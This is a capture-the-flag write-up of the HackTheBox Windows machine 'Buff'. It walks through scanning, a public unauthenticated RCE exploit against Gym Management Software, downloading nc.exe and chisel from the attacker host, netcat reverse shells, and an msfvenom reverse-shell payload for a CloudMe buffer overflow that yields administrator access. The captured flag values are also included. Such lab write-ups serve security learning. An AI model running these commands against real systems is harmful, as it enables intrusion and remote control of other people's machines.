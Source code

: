 ```yaml
---
title: "Buff"
date: 2025-06-05
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Buff

![](../assets/Pasted%20image%2020250604235743.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.198
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 00:06 CEST
Nmap scan report for 10.10.10.198
Host is up (0.041s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   40.94 ms 10.10.14.1
2   41.27 ms 10.10.10.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.83 seconds
```

`Port` `8080` shows a site about fitness.

![](../assets/Pasted%20image%2020250605001326.png)

The site is made with `Gym Management Software 1.0`.

![](../assets/Pasted%20image%2020250605001640.png)

## Initial Access

Using `searchsploit`, get the unauthenticated RCE one and execute it.

![](../assets/Pasted%20image%2020250605102916.png)

```shell
$ python2 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                 
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

Get the flag:

```shell
C:\xampp\htdocs\gym\upload> type C:\users\shaun\desktop\user.txt
�PNG
▒
47643683f9c91176910ec622fc4b20f9
```

## Privilege Escalation

Transfer `nc.exe` to the host and get a reverse shell

```shell
C:\xampp\htdocs\gym\upload> powershell.exe -c iwr -uri http://10.10.14.14:8000/nc.exe -outfile C:\users\shau
�PNG
▒
```

```shell
C:\xampp\htdocs\gym\upload> C:\users\shaun\nc.exe 10.10.14.14 5555 -e cmd.exe
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49833
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

There is a `CloudMe_1112.exe` in `shaun`'s downloads folder. We can see in the official documentation that the default port is `8888`.

```shell
PS C:\users\shaun\downloads> netstat -ano | findstr 8888
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       4996
```

Transfer `chisel` to expose the port.

```shell
$ ./chisel server --port 5555 --reverse                        
2025/06/05 23:07:25 server: Reverse tunnelling enabled
2025/06/05 23:07:25 server: Fingerprint PfHQvvl62LmfoeerrJeKwQTGw8wsiz5DkAonqhI5IYA=
2025/06/05 23:07:25 server: Listening on http://0.0.0.0:5555
2025/06/05 23:08:59 server: session#1: tun: proxy#R:8888=>localhost:8888: Listening
```

```shell
PS C:\users\shaun\downloads> iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
PS C:\users\shaun\downloads> .\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
.\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
2025/06/05 22:09:00 client: Connecting to ws://10.10.14.14:5555
2025/06/05 22:09:00 client: Connected (Latency 40.8734ms)
```

Using `searchsploit`:

![](../assets/Pasted%20image%2020250605231529.png)

Get the first one and edit it; we need to change the payload from executing the calculator to a reverse shell.

```shell
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```

Set the listener and execute the script.

```shell
$ sudo rlwrap nc -lnvp 443                     
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49935
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
d9125a41ab7239a80a93d04b6999f906
```
